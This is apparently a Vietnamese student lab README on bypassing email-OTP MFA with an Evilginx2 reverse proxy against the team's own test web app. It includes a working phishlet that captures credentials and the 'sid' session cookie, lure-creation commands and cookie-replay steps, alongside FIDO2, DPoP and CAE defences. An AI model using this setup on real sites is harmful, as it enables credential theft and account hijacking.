




<p align="center">
  
  
  
  
  
</p>

# Project IAO202: Nghiên Cứu Kỹ Thuật Bypass MFA Bằng Reverse Proxy & Giải Pháp Phòng Thủ

> **Chuyên ngành:** An Toàn Thông Tin  
> **Thời gian thực hiện:** 19/10/2026 ➔ 30/10/2026  
> **Nhóm thực hiện:** Team 1
> **Thành viên:** Quang, An, Hiếu, Khanh
> **Mục tiêu:** Nghiên cứu thực nghiệm điểm yếu của xác thực đa yếu tố truyền thống - MFA (OTP,.v.v) và đề xuất các giải pháp phòng thủ
(FIDO2, WebAuthn, DPoP).

---

> [!CAUTION]
> **Tuyên Bố Miễn Trừ Trách Nhiệm (Ethical & Legal Disclaimer)**  
> Toàn bộ tài liệu, mã nguồn và kịch bản trong repository này được thực hiện **phục vụ mục đích nghiên cứu học thuật, giáo dục và kiểm thử phòng thủ** trong khuôn khổ môn học IAO202.  
> Nghiêm cấm sử dụng công cụ hoặc kiến thức này để xâm nhập vào bất kỳ hệ thống nào khi chưa có sự đồng ý bằng văn bản. Nhóm tác giả không chịu trách nhiệm với các hành vi sử dụng sai mục đích.

---

## 📑 Mục Lục
1. [Tổng Quan Kỹ Thuật AiTM Reverse Proxy](#-1-tổng-quan-kỹ-thuật-aitm-reverse-proxy)
2. [Ánh Xạ MITRE ATT&CK](#-2-ánh-xạ-mitre-attck)
3. [Cấu Trúc Thư Mục Dự Án](#-3-cấu-trúc-thư-mục-dự-án)
4. [Các Thành Phần Chính Trong Hệ Thống](#-4-các-thành-phần-chính-trong-hệ-thống)
5. [Sơ Đồ Luồng Hoạt Động & Xử Lý Gói Tin](#-5-sơ-đồ-luồng-hoạt-động--xử-lý-gói-tin)
6. [Hướng Dẫn Cài Đặt & Chạy Lab Thực Nghiệm](#-6-hướng-dẫn-cài-đặt--chạy-lab-thực-nghiệm)
7. [Hai Kịch Bản Kiểm Thử (Local Lab & Cloud)](#-7-hai-kịch-bản-kiểm-thử-local-lab--cloud)
8. [Giải Pháp Phòng Thủ (Defense-in-Depth)](#-8-giải-pháp-phòng-thủ-defense-in-depth)
9. [Phân Công Công Việc & Kế Hoạch Triển Khai](#-9-phân-công-công-việc--kế-hoạch-triển-khai)
10. [Tài Liệu Tham Khảo](#-10-tài-liệu-tham-khảo)

---

## 📖 1. Tổng Quan Kỹ Thuật AiTM Reverse Proxy

### 1.1. So Sánh: Phishing Truyền Thống vs. AiTM Reverse Proxy

| Tiêu chí | Phishing Truyền Thống (Credential Harvesting) | Tấn Công AiTM (Reverse Proxy Interception) |
| :--- | :--- | :--- |
| **Cách dựng web** | Dựng trang web tĩnh clone lại giao diện đăng nhập. | Dùng máy chủ **Reverse Proxy trong suốt (Transparent Proxy)** đứng giữa người dùng và máy chủ thật. |
| **Khả năng tương tác** | Tĩnh, không xử lý được các bước động từ máy chủ thật. | Động 100%, chuyển tiếp (forward) toàn bộ request và response của người dùng với server thật. |
| **Khi hệ thống bật MFA** | **Không vượt qua được.** Mã OTP (SMS/Email/App) chỉ sống từ 30-60 giây và chỉ máy chủ thật mới xác nhận được. | **Bypass thành công.** Người dùng nhập mã OTP thật lên máy chủ thật qua proxy. Khi xác thực xong, proxy chặn lấy **Session Cookie** được cấp. |
| **Dữ liệu nhắm tới** | Tên đăng nhập và mật khẩu (Username & Password). | **Cookie định danh phiên đăng nhập (Authenticated Session Cookie)**. |
| **Kết quả sau tấn công** | Kẻ tấn công bị kẹt lại ở bước đòi hỏi mã OTP. | Kẻ tấn công nạp session cookie vào trình duyệt là vào thẳng tài khoản mà không cần mật khẩu hay mã OTP. |



### 1.2. Cơ Chế Dual TLS Termination (2 Kết Nối HTTPS Riêng Biệt)

Máy chủ Reverse Proxy (như **Evilginx2**) hoạt động theo mô hình trung gian:
1. **Kết nối 1 (Client ➔ Proxy):** Trình duyệt kết nối tới domain của proxy qua HTTPS (dùng chứng chỉ SSL của proxy).
2. **Kết nối 2 (Proxy ➔ Server Thật):** Proxy gửi request tiếp lên server thật qua HTTPS (dùng chứng chỉ SSL của server thật).
3. **Đọc dữ liệu trong bộ nhớ (In-Memory Plaintext):** Vì proxy là điểm kết thúc TLS (TLS Termination) của cả 2 kết nối, toàn bộ gói tin HTTP (headers, form data, cookies, JSON bodies) đều ở dạng văn bản rõ (plaintext) trong RAM của proxy trước khi được mã hóa gửi tiếp.
4. **Bộ lọc thay thế domain (`sub_filters`):** Proxy tự động tìm và thay thế tên miền thật trong HTML/JS thành tên miền của proxy, giúp các lần bấm chuột tiếp theo của người dùng vẫn đi qua proxy.

---

## 🎯 2. Ánh Xạ MITRE ATT&CK

Kỹ thuật AiTM được mô tả chi tiết trong khung ma trận **MITRE ATT&CK**:

| Kỹ Thuật | Tên Kỹ Thuật (MITRE ATT&CK) | Vai Trò Trong Dự Án |
| :--- | :--- | :--- |
| **[T1566.002](https://attack.mitre.org/techniques/T1566/002/)** | Spearphishing Link | Dùng email mạo danh bộ phận hỗ trợ kỹ thuật để gửi link proxy cho người dùng. |
| **[T1556](https://attack.mitre.org/techniques/T1556/)** | Modify Authentication Process | Đứng giữa luồng xác thực giữa Client và Server. |
| **[T1111](https://attack.mitre.org/techniques/T1111/)** | Multi-Factor Authentication Interception | Chuyển tiếp mã OTP và chặn lấy phiên đăng nhập hợp lệ. |
| **[T1539](https://attack.mitre.org/techniques/T1539/)** | Steal Web Session Cookie | Bóc tách cookie phiên (`sid` hoặc `ESTSAUTH`) từ response header của server. |
| **[T1550.004](https://attack.mitre.org/techniques/T1550/004/)** | Web Session Cookie Hijacking | Nạp cookie vừa lấy vào trình duyệt để đăng nhập trái phép vào ứng dụng. |

---

## 📂 3. Cấu Trúc Thư Mục Dự Án

Cấu trúc các thư mục và file chính trong repository:

```text
Project_IAO_MFA_bypass_by_reverse_proxy/
├── README.md                                      # Tài liệu chính của dự án
├── LICENSE                                        # Giấy phép MIT
├── build_environment.sh                           # Script tự động kiểm tra thư viện & biên dịch Evilginx
├── start_app.sh                                   # Script 1-click khởi chạy nhanh web test cục bộ
│
├── IAO_Web_Test/                                  # ỨNG DỤNG WEB MỤC TIÊU CÓ XÁC THỰC MFA (NORTHGATE PORTAL)
│   ├── README.md                                  # Hướng dẫn chi tiết về ứng dụng web
│   ├── package.json                               # Danh sách thư viện Node.js (Express, bcryptjs, nodemailer, better-sqlite3...)
│   ├── .env.example                               # File mẫu cấu hình biến môi trường
│   ├── .env                                       # Cấu hình thực tế (PORT, SESSION_SECRET, SMTP Mailtrap)
│   ├── src/                                       # Mã nguồn Backend
│   │   ├── server.js                              # File khởi động HTTP server & cơ sở dữ liệu
│   │   ├── app.js                                 # Định tuyến các API xác thực, middleware bảo mật (Helmet, Rate Limit)
│   │   ├── config.js                              # Đọc cấu hình từ file .env
│   │   ├── db.js                                  # Quản lý cơ sở dữ liệu SQLite
│   │   ├── mailer.js                              # Gửi email chứa mã OTP qua giao thức SMTP (Mailtrap)
│   │   ├── otp.js                                 # Tạo mã OTP ngẫu nhiên 6 chữ số, đếm ngược thời gian hết hạn
│   │   ├── sessions.js                            # Tạo, kiểm tra và xóa session cookie 'sid' (lưu hash SHA-256 trên server)
│   │   └── util.js                                # Các hàm tiện ích bổ trợ
│   ├── public/                                    # Giao diện Frontend
│   │   ├── login.html                             # Form đăng nhập và nhập mã OTP xác thực
│   │   ├── register.html                          # Trang đăng ký tài khoản mới
│   │   ├── forgot.html                            # Trang khôi phục mật khẩu
│   │   ├── dashboard.html                         # Trang quản trị (chỉ truy cập được khi đã đăng nhập)
│   │   └── assets/                                # CSS, JavaScript phía client
│   ├── data/                                      # Chứa file cơ sở dữ liệu SQLite (app.db)
│   ├── migrations/                                # File khởi tạo bảng dữ liệu (001_init.sql)
│   └── test/                                      # Script test tự động toàn bộ luồng đăng nhập (smoke.js)
│
└── Tools/                                         # CÔNG CỤ REVERSE PROXY & PHISHLETS
    ├── README.md                                  # Hướng dẫn sử dụng các công cụ trong thư mục Tools
    └── Evilginx2/                                 # Mã nguồn và nhị phân của Evilginx2 (viết bằng Golang)
        ├── build/evilginx                         # File thực thi đã biên dịch
        ├── core/                                  # Bộ máy proxy, xử lý TLS, bóc tách cookie
        ├── phishlets/                             # Các file kịch bản phishlet YAML
        │   ├── demo.yaml                          # Kịch bản can thiệp vào web IAO_Web_Test
        │   ├── example.yaml                       # File mẫu của framework
        │   ├── Linkedin.yaml                      # Kịch bản nghiên cứu mạng xã hội
        │   └── microsoftoffice365ADFS.yaml        # Kịch bản nghiên cứu Microsoft SSO
        └── main.go                                # Điểm bắt đầu của ứng dụng Go
```

---

## ⚙️ 4. Các Thành Phần Chính Trong Hệ Thống

### 4.1. Web : [IAO_Web_Test](./IAO_Web_Test) (Northgate Portal)
Ứng dụng web được dựng bằng Node.js/Express để làm mục tiêu kiểm thử:
* **Tech stack:** Node.js 18+, Express.js, SQLite (`better-sqlite3`), bcryptjs (mã hóa mật khẩu), Nodemailer (gửi email).
* **Quy trình đăng nhập 2 lớp (MFA):**
  1. Người dùng gửi thông tin: `POST /api/auth/login` với dữ liệu JSON: `{"identifier": "...", "password": "..."}`.
  2. Server kiểm tra mật khẩu. Nếu đúng, server tạo một mã OTP ngẫu nhiên 6 chữ số có hạn 5 phút và gửi về email qua Mailtrap.
  3. Người dùng nhập mã OTP gửi tới `POST /api/auth/login/verify`.
  4. Nếu mã OTP chính xác, server tạo một phiên đăng nhập mới và trả về cookie tên là **`sid`** (`httpOnly`, `SameSite=Lax`, `Path=/`).
* **Các lớp bảo vệ đã có:**
  - `Helmet` thêm các header HTTP bảo mật.
  - `express-rate-limit` giới hạn số lần gửi request để chống brute-force.
  - Cookie `sid` được băm SHA-256 trước khi lưu vào database để chống tấn công Session Fixation.

### 4.2. Máy Chủ Reverse Proxy: [Evilginx2](./Tools/Evilginx2)
* Viết bằng ngôn ngữ Go, có thể lắng nghe cùng lúc cổng 80 (HTTP), 443 (HTTPS) và 53 (DNS).
* Hoạt động ở 2 chế độ:
  - **Chế độ Lab Cục Bộ (`-developer`, `autocert off`):** Tự sinh Root CA nội bộ để ký chứng chỉ SSL cho các domain thử nghiệm (`*.test.local`).
  - **Chế độ Public Internet (`autocert on`):** Tự đóng vai trò DNS Server để xin chứng chỉ SSL hợp lệ từ Let's Encrypt qua thử thách DNS-01.

### 4.3. Phishlet : [demo.yaml](./Tools/Evilginx2/phishlets/demo.yaml)
Tệp YAML cấu hình cho Evilginx khi attack vào [IAO_Web_Test](./IAO_Web_Test):

```yaml
min_ver: '3.0.0'
proxy_hosts:
  # Cấu hình proxy trỏ về ứng dụng web mục tiêu
  - {phish_sub: 'login', orig_sub: '', domain: '127.0.0.1:3000', session: true, is_landing: true, auto_filter: true}

sub_filters: []

# Cookie phiên cần lấy sau khi người dùng nhập đúng OTP
auth_tokens:
  - domain: '127.0.0.1'
    keys: ['sid']

# Bóc tách tên đăng nhập và mật khẩu từ body JSON
credentials:
  username:
    key: 'identifier'
    search: '"(?:identifier|email)"\s*:\s*"([^"]+)"'
    type: 'json'
  password:
    key: 'password'
    search: '"password"\s*:\s*"([^"]+)"'
    type: 'json'

# Đường dẫn trang đăng nhập
login:
  domain: '127.0.0.1:3000'
  path: '/login'
```

---

## 🔄 5. Sơ Đồ Luồng Hoạt Động & Xử Lý Gói Tin

### 5.1. Sequence Diagram



### 5.2. Bảng Biến Đổi Gói Tin HTTP Qua Proxy

| Chiều gói tin | Hướng đi | URL hiển thị trên trình duyệt | Header `Host` thực tế | Dữ liệu bị bóc tách |
| :--- | :---: | :--- | :--- | :--- |
| **User ➔ Proxy** | Gửi | `login.test.local` | `Host: login.test.local` | `identifier`, `password` trong JSON body |
| **Proxy ➔ WebApp** | Chuyển tiếp | `127.0.0.1:3000` | `Host: 127.0.0.1:3000` | Proxy đổi lại `Host`, `Origin` cho hợp lệ |
| **WebApp ➔ Proxy** | Phản hồi | `127.0.0.1:3000` | `Set-Cookie: sid=...` | **Evilginx catch and save cookie `sid`** |
| **Proxy ➔ User** | Chuyển tiếp | `login.test.local` | `Set-Cookie: sid=...` | Thay tên miền trong HTML/JS nếu cần |

---

## 🛠️ 6. Hướng Dẫn Cài Đặt & Chạy Lab Thực Nghiệm

Toàn bộ quá trình chạy thử nghiệm được thực hiện trên máy Kali Linux theo 4 bước:



### Bước 1: Kiểm tra và thiết lập môi trường
Chạy script [build_environment.sh](./build_environment.sh) tại thư mục gốc:

```bash
cd /home/kali/Project_IAO_MFA_bypass_by_reverse_proxy
./build_environment.sh
```
Script sẽ tự động kiểm tra Go, Node.js, biên dịch Evilginx ra file `Tools/Evilginx2/build/evilginx`, tạo file `.env` mẫu và chạy test thử backend.

### Bước 2: Khởi chạy ứng dụng Web mục tiêu
Khởi chạy ứng dụng web bằng script [start_app.sh](./start_app.sh):

```bash
./start_app.sh
```
* Ứng dụng chạy tại: `http://localhost:3000`
* Để nhận mã OTP qua hòm thư ảo, cấu hình thông số Mailtrap trong file [.env](./IAO_Web_Test/.env):
  ```env
  SMTP_HOST=sandbox.smtp.mailtrap.io
  SMTP_PORT=2525
  SMTP_USER=<your_mailtrap_user>
  SMTP_PASS=<your_mailtrap_password>
  MAIL_FROM="Northgate Security <security@northgate.local>"
  ```

### Bước 3: Cấu hình và chạy Evilginx2

1. **Chạy Evilginx2 bằng quyền root:**
   ```bash
   cd /home/kali/Project_IAO_MFA_bypass_by_reverse_proxy/Tools/Evilginx2
   sudo ./build/evilginx -p ./phishlets -developer
   ```

2. **Cấu hình thông số trong cửa sổ Evilginx:**
   ```text
   : config domain test.local
   : config ipv4 external 127.0.0.1
   : config autocert off
   ```

3. **Thêm phân giải domain vào `/etc/hosts`:**
   ```text
   127.0.0.1 test.local login.test.local
   ```

4. **Import chứng chỉ Root CA vào Firefox (Tránh lỗi SSL):**
   Khi chạy `autocert off`, Evilginx dùng chứng chỉ tự ký. Để Firefox không hiện lỗi `SEC_ERROR_UNKNOWN_ISSUER` hoặc `SEC_ERROR_BAD_SIGNATURE`:
   * File Root CA nằm tại: `/root/.evilginx/crt/ca.crt` (hoặc copy ra Desktop).
   * Vào Firefox $\rightarrow$ **Settings** $\rightarrow$ **Privacy & Security** $\rightarrow$ **View Certificates...**
   * Trong tab **Authorities**, xóa CA cũ nếu có $\rightarrow$ Bấm **Import...** $\rightarrow$ Chọn `ca.crt` $\rightarrow$ Tích chọn **"Trust this CA to identify websites"** $\rightarrow$ Nhấn **OK**.

5. **Bật phishlet và lấy link bẫy -> Lure:**
   ```text
   : phishlets hostname demo test.local
   : phishlets enable demo
   : lures create demo
   : lures get-url 0
   ```
   Evilginx sẽ tạo ra một đường link dạng: `https://login.test.local/<đoạn_mã_ngẫu_nhiên>`

### Bước 4: Kiểm thử bypass MFA và tái chiếm phiên
1. Dùng trình duyệt mở đường link vừa tạo.
2. Nhập tài khoản, mật khẩu và điền mã OTP nhận từ Mailtrap.
3. Trên màn hình Evilginx sẽ hiện:
   - Tên đăng nhập & mật khẩu vừa nhập.
   - Session Cookie bắt được: `[sid: <giá_trị_cookie>]`
4. **Kiểm tra kết quả:** Mở một cửa sổ ẩn danh mới, cài tiện ích **Cookie-Editor**, thêm cookie tên là `sid` với giá trị vừa bắt được, rồi truy cập thẳng vào `http://localhost:3000/dashboard`. Bạn sẽ vào được trang quản trị ngay lập tức mà không cần nhập mật khẩu hay mã OTP.

---

## 🎯 7. Hai Kịch Bản Để Test (Local Lab / Cloud)

Dự án thiết kế 2 kịch bản để so sánh:

### Kịch Bản A: Thử Nghiệm Trong Local Lab
* **Mục tiêu:** Ứng dụng [IAO_Web_Test](./IAO_Web_Test) (Node.js, chạy trên port 3000).
* **Mục đích:** Thử nghiệm việc bóc tách dữ liệu JSON và đánh cắp session cookie `sid` sau bước nhập OTP qua Mailtrap.
* **Hạ tầng:** Chạy hoàn toàn offline trên localhost bằng domain ảo `test.local`.

### Kịch Bản B: Thử Nghiệm Trên Cloud
* **Mục tiêu:** Ứng dụng [IAO_Web_Test](https://iao-web-test.onrender.com) triển khai thực tế trên nền tảng đám mây **Render** (`iao-web-test.onrender.com`).
* **Cơ chế xác thực:** Gửi mã OTP xác thực 2 bước thực tế qua máy chủ **Mailtrap SMTP** (`sandbox.smtp.mailtrap.io`).
* **Hạ tầng mạng:** Ứng dụng web chạy độc lập qua Internet với chứng chỉ SSL/TLS công khai, giúp kiểm chứng khả năng tương tác của Reverse Proxy trong môi trường mạng thực tế.
* **Mục tiêu lấy cắp:** Bóc tách cặp thông tin đăng nhập JSON (`identifier`, `password`) và chiếm đoạt session cookie `sid` sau bước xác thực email OTP.

---

## 🛡️ 8. Giải Pháp Phòng Thủ (Defense-in-Depth)

Nghiên cứu cho thấy: **Các phương thức MFA dùng mã một lần (SMS OTP, Email OTP, Authenticator TOTP) đều không thể chống lại AiTM Reverse Proxy** vì người dùng vẫn tự tay nhập mã vào proxy. Để ngăn chặn triệt để, hệ thống cần áp dụng các biện pháp sau:



### 8.1. Giải pháp triệt để: FIDO2 / WebAuthn & Passkeys (Phishing-Resistant MFA)
* **Cơ chế Origin Binding (Ràng buộc tên miền):** Khi đăng nhập bằng khóa bảo mật FIDO2 (như YubiKey) hoặc Passkeys, trình duyệt sẽ gửi chính xác tên miền đang hiển thị trên thanh địa chỉ (ví dụ `login.test.local`) vào chip bảo mật phần cứng.
* Chip phần cứng ký số vào yêu cầu xác thực bằng tên miền đó. Khi chữ ký được gửi về máy chủ thật, máy chủ đối chiếu thấy tên miền trên chữ ký (`login.test.local`) không khớp với tên miền gốc của nó $\rightarrow$ **Yêu cầu đăng nhập bị từ chối ngay lập tức**. Kẻ tấn công đứng ở giữa không thể giả mạo được chữ ký này.

### 8.2. Ràng buộc Token với thiết bị (Token Binding / DPoP - RFC 9449)
* **DPoP (Demonstrating Proof-of-Possession):** Ràng buộc session token với khóa riêng (private key) của trình duyệt người dùng.
* Nếu kẻ tấn công lấy cắp được cookie và nạp vào máy khác, request gửi đi sẽ không có private key tương ứng nên máy chủ sẽ từ chối phiên làm việc.

### 8.3. Đánh giá phiên liên tục (Continuous Access Evaluation - CAE) & Conditional Access
* Bật chính sách Conditional Access: Chỉ cho phép tài khoản đăng nhập từ các máy tính hợp lệ do công ty quản lý (Intune / Domain Joined).
* Dùng CAE để tự động hủy phiên đăng nhập nếu nhận thấy địa chỉ IP thay đổi đột ngột giữa lúc đăng nhập và lúc sử dụng.

---

## 👥 9. Phân Công Công Việc & Kế Hoạch Triển Khai

### 9.1. Phân Công Nhiệm Vụ

| Thành viên | Trách nhiệm chính | Chi tiết công việc |
| :---       | :---              | :---               |
| **Lương An & Khanh** | **Phát triển Web & Triển khai Cloud** | • Xây dựng mã nguồn ứng dụng xác thực [IAO_Web_Test](./IAO_Web_Test) với cơ chế MFA Email-OTP.<br>• Triển khai và vận hành ứng dụng lên nền tảng đám mây Render (`https://iao-web-test.onrender.com/login`).<br>• Cấu hình dịch vụ máy chủ Mailtrap SMTP (`sandbox.smtp.mailtrap.io`) để gửi nhận mã OTP xác thực.<br>• Quản trị cấu hình mạng và thiết lập chứng chỉ SSL/TLS cho web app. |
| **Quang & Hiếu** | **Xây dựng Phishlet & Kiểm thử Proxy** | • Nghiên cứu cấu trúc và vận hành máy chủ Reverse Proxy [Evilginx2](./Tools/Evilginx2).<br>• Viết và tinh chỉnh file kịch bản [demo.yaml](./Tools/Evilginx2/phishlets/demo.yaml) để bắt chính xác dữ liệu JSON và cookie `sid`.<br>• Thực hiện kiểm thử kịch bản bypass MFA trong lab và đối soát với ứng dụng trên Render qua Cookie-Editor.<br>• Tổng hợp tài liệu phân tích kỹ thuật và đề xuất các giải pháp phòng thủ chuyên sâu. |

### 9.2. Kế Hoạch Chi Tiết | 19/10/2026 ➔ 30/10/2026

* **Tuần 1 (19/10 - 22/10): Thiết lập môi trường và công cụ**
  - [x] Viết script tự động hóa [build_environment.sh](./build_environment.sh) và [start_app.sh](./start_app.sh).
  - [x] Hoàn thiện ứng dụng web mục tiêu [IAO_Web_Test](./IAO_Web_Test) với cơ chế Email OTP và chạy smoke test đạt 100%.
  - [x] Cấu hình Root CA nội bộ và xử lý triệt để lỗi chứng chỉ trong Firefox.
* **Tuần 2 (23/10 - 25/10): Create Phishlet**
  - Hoàn thiện phishlet | Evilginx và IAO_Web_Test
  - Kiểm tra khả năng bắt user/passwd dạng JSON và cookie `sid`.
* **Tuần 3 (26/10 - 28/10): Kiểm thử toàn diện & Thử nghiệm phòng thủ**
  - Thực hiện kịch bản tấn công đối chứng trên môi trường lab.
  - Thử nghiệm cơ chế phòng thủ bằng FIDO2/WebAuthn và đánh giá sự khác biệt với OTP truyền thống.
* **Tuần 4 (29/10 - 30/10): Báo cáo & Tổng kết**
  - Hoàn thiện tài liệu báo cáo đồ án môn học, slide thuyết trình và video demo.

---
//Update soon or no...
